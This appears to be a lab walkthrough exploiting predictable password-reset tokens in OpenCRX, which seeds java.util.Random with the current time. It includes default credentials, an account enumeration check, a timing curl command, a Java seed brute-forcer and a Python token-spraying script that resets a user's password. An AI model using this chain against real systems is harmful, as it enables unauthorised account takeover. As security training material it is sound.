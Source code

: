 ## When Random is Not
To understand what's going on inside the code, we will be using java shell.
Moreover, we will be trying to understand the difference between 2 primary random number generators in the standard java libraries that are:
1. java.util.random
2. java.security.SecureRandom

The official documentation for java.util.random goes as follows:

```Text
An instance of this class is used to generate a stream of pseudorandom numbers.
If two instances of 'Random' are created with the same seed, and the same sequence of method calls is made for each, they will generate and return identical sequences of numbers.
Instances of `java.util.Random` are not cryptographically secure.
```

We can observe this in our own java shell environment.
We import the class, instantiate 2 instances, of random objects, with the sane seed value, and compare them:

![](../../03.%20Images/t6-ss7.png)

We see that 2 instances generated with the same seed value, have same random value.
The java.security.SecureRandom class states the following:

```text
This class provides a cryptographically strong random number generator.
SecureRandom must produce non-deterministic output.
Therefore any seed material passed to a SecureRandom object must be unpredictable, and all SecureRandom output sequences must be cryptographically strong
```

Trying the same with the java.security.SecureRandom class, we get a different result:

![](../../03.%20Images/t6-ss8.png)

Even though they were instantiated with the same seed value, the two SecureRandom objects returned different results from the nextInt method.

Going back and looking at the getRandomBase62 method:

![](../../03.%20Images/t6-ss6.png)

OpenCRX uses the regular Random class to generate password reset tokens.
it is seeded with the results of System.currentTimeMillis().
This method returns the difference, measured in milliseconds, between the current time and midnight, January 1, 1970 UTC.

If we can predict when a token is requested, we should be able to generate a matching token by manipulating the seed value when creating our own Random object.

## Determining Account Existence
A default installation of OpenCRX has three accounts with the following username and password pairs:

1.  guest / guest
2.  admin-Standard / admin-Standard
3.  admin-Root / admin-Root

The existence of an account can be determined easily through the password reset page. If we provide a username that does not exist, we get the following response:

![](../../03.%20Images/t6-ss9.png)

However, if we provide a username that does exist, we get the following response:

![](../../03.%20Images/t6-ss10.png)

## Timing the Request
In order to generate the correct password reset token, we need to guess the seed value, which is the exact millisecond that the token was generated.

We can get the milliseconds using the date command in Kali with the "%s" flag.
We'll also use the "%3N" flag to include three digits of nanoseconds. This format will match the output of the Java method in milliseconds.
We can get the range of potential seed values using the date command before and after we submit the reset request with curl

The command is as follows:

```bash
date +%s%3N && curl -s -i -X 'POST' --data-binary 'id=guest' 'http://opencrx:8080/opencrx-core-CRX/RequestPasswordReset.jsp' && date +%s%3N
```

Running the command we get 2 numbers indicating a range of numbers that can be used by us to find the seed.

This range varies based on network latency and server processing time. However, the seed is determined early in the password reset process, so it is likely to be closer to the start time rather than the end time.

## Generating Token List
Now that we have the range of potential random seeds, we need to create our own token generator.
We can create a file with our own Java class to generate the tokens to exploit the predictable random generation.

We will start by by building out the basic outline of our class.
We will need 
- A class definition
- A main method so that we can run the class from the command line
- A method that generates the tokens

We can copy the code from OpenCRX, and use it in our own program.
We will need 
- An int variable for the _length_ of the token
- long variables for the start and stop seed values
- A String for the token values.

We will use a for loop to iterate between the start and stop values, calling the getRandomBase62 method and passing in the seed value as it iterates.

We will also copy the contents of the getRandomBase62 method from org.opencrx.kernel.utils.Util.java and modify it to use the seed value passed in to the method.
The code will look like so:

```java
import java.util.Random;
  
public class OpenCRXToken {
	public static void main(String args[]) {
		int length = 40;
	    	long start = Long.parseLong("1582038122371");
		long stop = Long.parseLong("1582038122769");
		String token = "";
	  
		for (long l = start; l < stop; l++) {
		token = getRandomBase62(length, l);
 		System.out.println(token);
		}
	}

	public static String getRandomBase62(int length, long seed) {
		String alphabet = "0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz";
		//Random random = new Random(System.currentTimeMillis());
		Random random = new Random(seed);
		String s = "";
    		for (int i = 0; i < length; i++){
     			s = s + "0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz".charAt(random.nextInt(62)); 
		}
		return s;
  	}
}
```

Once we compile the code, and run it, we'll get our token list:

![](../../03.%20Images/t6-ss11.png)

## Automating Resets
When we examined the source code for UserHomes.class, we found the following format for the reset link:

```java
String resetConfirmUrl = webAccessUrl + (webAccessUrl.endsWith("/") ? "" : "/") + "PasswordResetConfirm.jsp?t=" + resetToken + "&p=" + providerName + "&s=" + segmentName + "&id=" + principalName;
```

The 4 arguments we need are resetToken, providerName, segmentName and id.
We already have the reset token, and the id parameter is the username of the user we're changing the password for.
To understand what segmentName and providerName are, we analyze the source code for RequestPasswordReset.jsp file:

![](../../03.%20Images/t6-ss12.png)

We see an example used for the placeholder value.
Examining the same page in our browser:

![](../../03.%20Images/t6-ss13.png)

The value "CRX" has been replaced with "ProviderName" and "Standard" has been replaced with "SegmentName".
Now that we have all the values we need to examine the source code of PasswordResetConfirm.jsp to determine what data we need to send to the server for the reset:

![](../../03.%20Images/t6-ss14.png)

In addition to the token, providerName, segmentName, and id parameters, we need to provide a new password value in the password1 and password2 fields as well.
We will use the following script to exploit this vulnerability:

```python
import requests
import argparse

parser = argparse.ArgumentParser()
parser.add_argument('-u','--user', help='Username to target', required=True)
parser.add_argument('-p','--password', help='Password value to set', required=True)
args = parser.parse_args()

target = "http://opencrx:8080/opencrx-core-CRX/PasswordResetConfirm.jsp"

print("Starting token spray. Standby.")
with open("tokens.txt", "r") as f:
    for word in f:
        # t=resetToken&p=CRX&s=Standard&id=guest&password1=password&password2=password
        payload = {'t':word.rstrip(), 'p':'CRX','s':'Standard','id':args.user,'password1':args.password,'password2':args.password}

        r = requests.post(url=target, data=payload)
        res = r.text

        if "Unable to reset password" not in res:
            print("Successful reset with token: %s" % word)
            break
```

Running the script:

![](../../03.%20Images/t6-ss15.png)

The vulnerability is exploited, and we can now login with the password, "password" in the guest username account:

![](../../03.%20Images/t6-ss16.png)